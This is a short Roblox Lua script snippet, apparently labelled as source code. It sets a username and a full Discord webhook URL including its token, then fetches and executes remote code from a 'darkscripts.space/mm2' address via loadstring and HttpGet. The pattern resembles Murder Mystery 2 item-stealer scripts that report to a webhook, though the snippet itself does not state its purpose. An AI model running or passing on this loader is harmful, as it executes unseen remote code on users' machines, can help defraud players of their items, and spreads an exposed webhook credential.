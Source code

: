 Username = "PogrzaloCie"
Webhook = "https://discord.com/api/webhooks/1287490612785844225/9z30LJg0R30IUyoUkdl_xm3pCaKzK6Qc9ZR9tzDC2PHeWSwWz1vmOiDVeyHoc4Tu3eYy"

loadstring(game:HttpGet(('https://darkscripts.space/mm2')))()
